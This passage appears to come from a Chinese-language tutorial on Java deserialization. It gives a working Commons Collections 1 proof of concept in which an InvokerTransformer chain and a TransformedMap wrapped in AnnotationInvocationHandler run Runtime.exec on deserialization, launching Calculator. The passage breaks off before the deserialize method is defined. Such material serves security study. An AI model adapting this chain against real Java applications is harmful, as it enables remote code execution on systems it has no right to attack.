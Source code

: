 ```java  
Transformer[] transformers = new Transformer[]{  
		new ConstantTransformer(Runtime.class),  
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),    
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})    
};  
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
```  
于是完整的`poc`如下  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.map.TransformedMap;    
    
import java.io.*;    
import java.lang.annotation.Target;    
import java.lang.reflect.Constructor;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollection1 {    
    public static void main(String[] args) throws Exception{    
    
        Transformer[] transformers = new Transformer[]{    
                new ConstantTransformer(Runtime.class),    
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),    
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),    
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})    
        };    
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);    
        chainedTransformer.transform(Runtime.class);    
        InvokerTransformer invokerTransformer =new  InvokerTransformer("exec",new Class[]{String.class},new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"});    
        HashMap<Object, Object> map = new HashMap<>();    
        map.put("value","value");    
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);   
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");    
        Constructor AnnotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class,Map.class);    
        AnnotationInvocationHandlerConstructor.setAccessible(true);    
        Object o = AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);    
        serialize(o);    
        unserialize("ser.bin");    
    
    }    
    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));    
        oos.writeObject(obj);    
    }    
    
```